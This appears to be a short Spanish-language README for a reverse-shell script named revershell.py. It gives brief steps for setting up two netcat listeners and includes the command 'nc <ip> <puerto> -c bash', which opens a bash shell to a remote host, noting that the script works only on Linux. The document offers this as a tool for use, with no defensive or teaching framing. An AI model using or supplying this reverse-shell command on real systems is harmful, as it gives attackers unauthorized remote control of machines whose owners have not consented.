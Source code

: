 revershell.py 
paso 1 :
debes ponerte en escucha donde vas a resibir la conexion del socket
paso 2:
una vez hecho eso debes otro nc que este escuchando por el puerto donde vas a recibri el comando de nc <ip> <puerto> -c bash 

practicamente debes ejecutar 2 nc 

nota
ese script nada mas funciona en linux
